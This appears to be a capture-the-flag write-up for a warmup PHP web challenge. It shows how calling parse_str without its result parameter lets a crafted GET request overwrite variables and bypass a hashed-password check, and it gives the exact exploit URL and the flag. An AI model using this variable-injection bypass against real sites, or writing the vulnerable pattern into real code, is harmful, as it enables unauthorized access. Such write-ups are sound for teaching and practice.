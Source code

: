 This is a warmup web problem.

At line 7:
```php
$res = parse_str($query);
```
we see that parse_str function is used without its second parameter, which is the result parameter.
This causes parsed parameters to be saved as variables which are referred to as register globals.

Thus, by sending GET request as: http://simpleauth.chal.ctf.westerns.tokyo?action=auth&hashed_password=c019f6e5cd8aa0bbbcc6e994a54c757e,
we are able to set
```php
$action = 'auth'
$hashed_password = 'c019f6e5cd8aa0bbbcc6e994a54c757e'
empty($user) == true
empty($pass) == true
```

At line 21~23:
```php
if (!empty($user) && !empty($pass)) {
    $hashed_password = hash('md5', $user.$pass);
}
```
Since user and pass are empty, the value of hashed_password is not overwritten with hash() at line 22.

Then, we easily pass the checks at line 24:
```php
if (!empty($hashed_password) && $hashed_password === 'c019f6e5cd8aa0bbbcc6e994a54c757e') {
```
and gets the flag printed out.

flag: **TWCTF{d0_n0t_use_parse_str_without_result_param}**